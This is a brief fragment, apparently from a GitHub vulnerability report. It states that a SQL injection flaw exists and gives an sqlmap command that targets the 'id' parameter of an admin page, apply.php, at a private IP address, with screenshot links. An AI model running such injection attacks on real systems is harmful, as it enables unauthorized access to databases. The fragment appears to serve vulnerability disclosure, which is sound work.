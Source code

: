 <br>Vulnerability exists
Attack using SQLMAP</br>
SQLMAP:
<br>Python sqlmap. Py - u "http://192.168.30.203/admin/apply.php? set=edit_submit&id=1" -p id</br>
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/c166076b-d1c0-4504-883b-cf01f3a58558)
